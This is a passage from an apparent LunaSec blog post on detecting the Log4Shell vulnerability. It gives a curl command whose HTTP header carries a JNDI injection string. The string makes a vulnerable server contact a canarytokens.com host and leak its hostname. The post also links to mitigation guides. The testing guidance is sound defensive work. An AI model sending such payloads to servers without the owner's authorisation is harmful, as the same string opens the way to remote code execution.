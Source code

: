 :::info Make sure that you have permission from the owner of the server being penetration tested.
:::

The simplest way to detect if a remote endpoint is vulnerable is to trigger a DNS query. As explained above,
the exploit will cause the vulnerable server to attempt to fetch some remote code.  By using the address
of a free online DNS logging tool in the exploit string, we can detect when the vulnerability is triggered.

[CanaryTokens.org](https://canarytokens.org/generate#) is an Open Source web app for this purpose that even generates the exploit string automatically
and sends an email notification when the DNS is queried.  Select `Log4Shell` from the drop-down menu. Then, embed the string
in a request field that you expect the server to log.  This could be in anything from a form
input to an HTTP header.  In our example above, the X-Api-Version header was being logged. This request should trigger it:

```shell
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://x${hostName}.L4J.<RANDOM_STRING>.canarytokens.com/a}'
```

:::info These requests may not be private
If you wish to test more discretely, you may [setup your own authoritative DNS server](https://www.joshmcguigan.com/blog/run-your-own-dns-servers/)
for testing.
:::

## More information

You can follow us on [Twitter](https://twitter.com/LunaSecIO), or subscribe below, and we'll continue to update you as
information about the impact of this exploit becomes available.

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**
- **[Explanation of the 2nd Log4j CVE](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046/)**
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**
- **[Part 2: Log4Shell Live Patch (Technical Deep-Dive)](https://www.lunasec.io/docs/blog/log4shell-live-patch-technical/)**

### Limit your vulnerability to future attacks

[LunaSec](https://www.lunasec.io/docs/pages/overview/introduction/) is an Open Source Application Security framework
that helps [isolate and protect](https://www.lunasec.io/docs/pages/how-it-works/features/) you from 0-day attacks like
Log4Shell.

We also offer a [managed 0-day mitigation service](https://www.lunasec.io/pages/live-dependency-patching) that
automatically and quickly patches your live server's dependencies whenever a new 0-day is announced.
